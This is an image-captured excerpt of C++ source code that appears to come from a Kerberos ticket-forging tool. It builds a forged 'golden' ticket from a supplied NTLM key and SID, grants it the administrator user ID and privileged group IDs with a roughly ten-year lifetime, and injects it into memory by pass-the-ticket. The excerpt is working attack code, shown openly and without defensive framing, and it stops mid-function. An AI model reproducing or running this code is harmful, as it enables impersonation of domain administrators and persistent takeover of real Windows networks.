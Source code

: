 ```c++
	status = NT_SUCCESS(CDLocateCSystem(dwKeyType, &pCSystem));
	if (!status)
	{
		wprintf(L"[-] CDLocateCSystem Error [%u].\n", GetLastError());
		return status;
	}
	// Convert user-supplied Long-term Key (NTLM) to Hex.
	if (StringToHex(lpKey, Key, pCSystem->KeySize))
	{
        // Generate three times for fake tickets: starttime, endtime and renew-till.
		GetSystemTimeAsFileTime(&lifeTimeData.TicketStart);
		*(PULONGLONG)&lifeTimeData.TicketStart -= *(PULONGLONG)&lifeTimeData.TicketStart % 10000000;
		lifeTimeData.TicketRenew = lifeTimeData.TicketEnd = lifeTimeData.TicketStart;
		*(PULONGLONG)&lifeTimeData.TicketEnd += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
		*(PULONGLONG)&lifeTimeData.TicketRenew += (ULONGLONG)10000000 * 60 * wcstoul(L"5256000", NULL, 0);
		wprintf(L"   User            : %s\n   Domain          : %s (%s)\n", lpUser, lpDomain, netbiosDomain);
	}
	// Convert user-supplied SID to PSID type.
	status = ConvertStringSidToSidW(lpSid, (PSID*)&pSid);
	if (!status)
	{
		wprintf(L"[-] ConvertStringSidToSidW Error [%u].\n", GetLastError());
		return status;
	}
    
	// Print some basic information.
	wprintf(L"   SID             : %s\n   User Id         : %u\n   Groups Id       : *513 512 520 518 519\n", lpSid, 500);
	wprintf(L"   ServiceKey      : ");	PrintfHex(Key, pCSystem->KeySize);	wprintf(L" - %s\n", TicketEtype(dwKeyType));
	if(lpService) wprintf(L"   Service         : %s\n", lpService);
	if(lpTarget) wprintf(L"   Target          : %s\n", lpTarget);
	wprintf(L"   Start Time      : ");
	DisplayLocalFileTime(&lifeTimeData.TicketStart); wprintf(L"\n");
	wprintf(L"   End Time        : ");
	DisplayLocalFileTime(&lifeTimeData.TicketEnd); wprintf(L"\n");
	wprintf(L"   Renew Until     : ");
	DisplayLocalFileTime(&lifeTimeData.TicketRenew); wprintf(L"\n");
	wprintf(L"   -> Ticket       : %s\n\n", isPtt ? L"** Pass The Ticket **" : L"ticket.kirbi");
	
    // Enter the KerberosGenerateGoldenData function to start forging tickets.
	BerAppKrbCred = KerberosGenerateGoldenData(lpUser, lpDomain, lpService, lpTarget, &lifeTimeData, Key, pCSystem->KeySize, dwKeyType, pSid, netbiosDomain);
	if (BerAppKrbCred == NULL)
	{
		wprintf(L"[-] Failed to generate kerberos golden data.\n");
		return NULL;
	}

	if (isPtt)
	{
        // Pass the ticket through the KerberosPTT function to submit the 
        // forged ticket into memory.
		status = KerberosPTT(BerAppKrbCred->bv_val, BerAppKrbCred->bv_len);
		if (!status)
		{
			wprintf(L"[-] Failed to pass the kerberos ticket.\n");
			return status;
		}
```